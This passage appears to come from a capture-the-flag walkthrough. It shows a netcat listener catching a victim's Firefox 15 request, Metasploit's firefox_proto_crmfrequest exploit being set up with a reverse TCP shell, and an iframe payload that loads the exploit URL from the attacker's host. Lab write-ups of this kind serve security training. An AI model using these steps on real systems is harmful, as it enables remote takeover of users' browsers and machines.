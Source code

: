 Then we need to start a netcat listener and wait for the target visit the page (in this case a script) and execute our malicious instruction.

```console
root@kali:~$ nc -vlnp 4343
listening on [any] 4343 ...
connect to [192.168.110.150] from (UNKNOWN) [192.168.110.151] 33045
GET / HTTP/1.1
Host: 192.168.110.150:4343
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:15.0) Gecko/20100101 Firefox/15.0
Accept: image/png,image/*;q=0.8,*/*;q=0.5
Accept-Language: en-us,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.110.151/blog/members.html
```

We have captured the request header, in the User-Agent field we see to perform the request version 15 of firefox was used, googling I found that this is vulnerable to code execution due to improper exception handling on objects that dont have the exposedProps property set, it is possible to overwrite functions that get called from a privileged context and silently invoke the AddonManager to install a malicious plugin.

There is a metasploit exploit for this, so launch metasploit and set up it as shown below:

```console
root@kali:~$ msfconsole -qx "use exploit/multi/browser/firefox_proto_crmfrequest; \
dquote> set srvhost 192.168.110.150; \          
dquote> set srvport 8888; \                                
dquote> set lhost 192.168.110.150; \                       
dquote> run"                                                    
[*] No payload configured, defaulting to generic/shell_reverse_tcp  
srvhost => 192.168.110.150                                       
srvport => 8888                                             
lhost => 192.168.110.150                                      
[*] Exploit running as background job 0.                   
[*] Exploit completed, but no session was created.              
                                                                     
[*] Started reverse TCP handler on 192.168.110.150:4444          
[*] Using URL: http://192.168.110.150:8888/Xqndzuz                
[*] Server started. 
```

As we can see this created a URL containing the malicious instruction, I tried to create the payload with other HTML tags but it didn't work except with iframe tag.

```html
<iframe src="http://192.168.110.150:8888/rC9mcJIc" ></iframe>
```
